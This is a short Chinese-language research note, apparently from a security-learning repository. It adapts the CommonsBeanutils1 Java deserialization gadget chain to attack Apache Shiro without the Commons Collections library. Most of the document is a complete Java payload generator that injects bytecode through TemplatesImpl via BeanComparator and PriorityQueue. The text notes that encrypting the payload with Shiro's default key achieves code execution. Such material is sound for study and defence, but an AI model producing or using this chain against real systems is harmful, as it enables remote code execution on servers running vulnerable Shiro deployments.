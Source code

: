 # CommonsBeanutils1-Shiro(无CC依赖)

首先在pom.xml当中去掉依赖，还是昨天的CB1直接生成，结果报错了，说这里有CC的`org.apache.commons.collections.comparators.ComparableComparator`

![](img/1.png)

看到这个报错只可能在一个地方出现，果不其然

![](img/2.png)

所以我们需要使用带两个参数的构造方法自己传入这个comparator对象，那么就要去寻找替代的，通过搜索找到一个

![](img/3.png)

我们点开看看，同时实现了Comparator接口与序列化，香

![](img/4.png)

还有个小细节既然是String.CASE_INSENSITIVE_ORDER，那么包一个双引号，防止Integer转String报错

```
queue.add("1");
queue.add("1");
```

默认key加密后成功弹出计算器

![](img/5.png)

## Payload

```Java
package ysoserial.mytest;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object
        value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] getPayload() throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
            ClassPool.getDefault().get(test.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);
        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] payload = getPayload();

        ObjectInputStream ois = new ObjectInputStream(new
            ByteArrayInputStream(payload));
        Object o = (Object)ois.readObject();

    }
}
```

